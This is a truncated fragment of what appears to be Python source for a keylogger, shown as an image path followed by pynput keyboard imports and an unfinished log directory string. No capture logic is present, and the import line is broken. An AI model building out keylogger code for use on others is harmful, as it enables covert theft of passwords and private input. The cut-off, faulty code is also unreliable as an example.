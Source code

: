# Keylogger.py
 Keylogger
import pynput
from pynput.keyboard import Key,listener
import logging 

log_dir = r"C:/Path
